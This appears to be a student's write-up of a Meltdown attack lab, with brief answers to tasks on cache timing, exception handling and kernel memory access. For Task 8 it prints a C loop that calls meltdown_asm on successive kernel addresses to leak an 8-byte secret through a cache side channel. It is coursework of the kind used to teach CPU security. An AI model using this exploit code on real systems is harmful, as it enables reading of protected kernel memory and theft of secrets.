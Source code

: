 ```yaml
---
title: Meltdown Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

To compile `CacheTime.c` successfully, you should add 2 lines first to resolve the type alias:

```c
#include <stdio.h>
#include <stdint.h>
```

Yes. Obviously, the accesses of `array[3*4096]` and `array[7*4096]` are extremely faster than that of the other elements, even though the access times of each element seems to be randomly various among 10 attempts.

# Task 2

Somehow it always finds the correct secret. So I modify the `CACHE_HIT_THRESHOLD` from 80 to 60, It begins to fail to find the secret with nothing output for a few times.

# Task 3

```txt
[  901.703115] secret data address:f881c000
```

# Task 4

No. I cannot access the kernel memory from user space. After executing the test program, the error message of *Segmentation fault* appears.

# Task 5

It handles the exception and prints

```txt
Memory access violation!
Program continues to execute.
```


# Task 6

Yes, I get the outputs

```txt
Memory access violation!
array[7*4096 + 1024] is in cache.
The Secret = 7.
```


# Task 7

## Task 7.1

It shows

```
Memory access violation!
```

No useful information output.

## Task 7.2

Add the code in a place between `flushSideChannel()` and `sigsetjmp()`. Anyway, It doesn't work as well.

## Task 7.3

Somehow, it still fails to steal the actual secret value. Even though I tried many times and modified the loop number.

## Task 8

Yes, it prints the first letter of the secret message.

To get the entire 8-byte secret message. I modified the code: nest the code in the main function into such a loop:

```c
for (int k = 0; k < 8; k++)
{

    memset(scores, 0, sizeof(scores));

    flushSideChannel();

    // Retry 1000 times on the same address.

    for (i = 0; i < 1000; i++)
    {

        ret = pread(fd, NULL, 0, 0);

        if (ret < 0)
        {

            perror("pread");

            break;
        }

        // Flush the probing array

        for (j = 0; j < 256; j++)

            _mm_clflush(&array[j * 4096 + DELTA]);

        if (sigsetjmp(jbuf, 1) == 0)
        {
            meltdown_asm(0xf881c000 + k);
        }

        reloadSideChannelImproved();
    }

    // Find the index with the highest score.

    int max = 0;

    for (i = 0; i < 256; i++)
    {

        if (scores[max] < scores[i])
            max = i;
    }

    printf("The secret value is %d %c\n", max, max);

    printf("The number of hits is %d\n", scores[max]);
}
```

And finally, I successfully stole the secret message:

![](./attack.png)




